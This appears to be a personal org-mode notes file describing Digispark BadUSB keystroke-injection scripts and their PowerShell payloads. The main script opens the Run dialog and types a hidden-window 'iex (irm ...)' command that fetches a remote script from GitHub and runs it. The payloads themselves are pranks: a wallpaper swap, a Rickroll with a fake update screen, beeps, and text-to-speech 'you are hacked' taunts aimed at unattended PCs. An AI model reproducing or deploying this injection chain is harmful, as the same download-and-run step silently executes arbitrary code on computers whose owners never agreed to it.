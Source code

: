 #+TITLE: My Digispark playground
#+auto_tangle: t


* :toc:
- [[#about][About]]
- [[#my-current-digispark-ino-script-and-powershell-payload][My current Digispark .ino script and Powershell payload]]
  - [[#digispark-script-powershellino][Digispark script (Powershell.ino)]]
  - [[#my-payload-scriptps1][My payload (script.ps1)]]
- [[#old-files][Old files]]
  - [[#digispark-scripts][Digispark scripts]]
  - [[#payloads][Payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* My current Digispark .ino script and Powershell payload

** Digispark script (Powershell.ino)
A script that will open powershell and run a payload from a server. The powershell script "script.ps1" can be found in the code block below the next. When the Powershell.ino script is executed the red led is switched on and the Digispark can be removed.

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

** My payload (script.ps1)
The next code block is my current script that is deployed by my Digispark and hosted on Github.

#+begin_src shell :tangle script.ps1
# Create a backup of the current desktop background!
copy "c:\Users\Public\Pictures\Desktop_bio.jpg" "c:\Users\Public\Pictures\Desktop_bio_backup.jpg"

# Source the picture that will become the new desktop background
$url ="https://i.imgflip.com/1aypjs.jpg"

# Destation file
$dest ="c:\Users\Public\Pictures\Desktop_bio.jpg"

# Download the file and write
Invoke-WebRequest -Uri $url -OutFile $dest

## Uncomment the following to revert back!
##
## Save the powned image
#copy "c:\Users\Public\Pictures\Desktop_bio.jpg" "c:\Users\Public\Pictures\Desktop_bio_powned.jpg"
##
## Replace the backed up picture
#copy "c:\Users\Public\Pictures\Desktop_bio_backup.jpg" "c:\Users\Public\Pictures\Desktop_bio.jpg"
#+end_src

* Old files

** Digispark scripts

*** Rickroll
#+begin_src C
 //This DigiSpark script opens up Rick Astley's - Never Gonna Give You Up and also a fake Windows update screen and then maximizes it using F11
#include "DigiKeyboard.h"
void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("https://youtu.be/dQw4w9WgXcQ?t=43s");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("http://fakeupdate.net/win10ue");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_F11);
  //Finished. Now show a red LED to indicate the the payload is deployed
  digitalWrite(1, HIGH);
  for(;;){ /*empty*/ }
}
#+end_src


** Payloads
*** Imperial March on buzzer
Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src


*** Talk to user (two voices) and download textfile
#+begin_src shell
# Source URL
$url ="https://www.gnu.org/licenses/old-licenses/gpl-2.0.txt"
# Destation file
$dest = "c:\temp\gpl.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 120
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
#Womans voice
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("yo yo yo sheeple")
#Mans voice
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right?")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Oh yes indeed, hacked and powned. Wave to the camera sheeple!")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("yeah they are checking the camera!")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("whahaha")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak("Ni nano ninei. Just warming up my vocal chords. I will give a speech to you soon but i'm gonna download some files first.")
$s.SelectVoice("Microsoft Zira Desktop")
$s.Speak("Hey, you found the GPL. Nice. Go ahead and bore the silly sheeple! Bye the way, please log out when you leave your pc, otherwise it can be seriously compromised.")
$s.SelectVoice("Microsoft David Desktop")
$s.Speak($text)

#+end_src

